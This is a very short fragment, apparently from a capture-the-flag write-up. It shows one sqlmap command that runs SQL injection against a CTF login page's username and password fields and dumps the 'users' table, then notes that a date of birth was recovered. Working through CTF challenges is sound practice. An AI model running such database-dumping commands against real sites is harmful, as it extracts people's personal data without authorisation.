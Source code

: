  python sqlmap.py --dbms=mysql -u https://trendytrove.deadface.io/login.php --data "username=&password=" --dump -T users
 
Dumped Users table, got DOB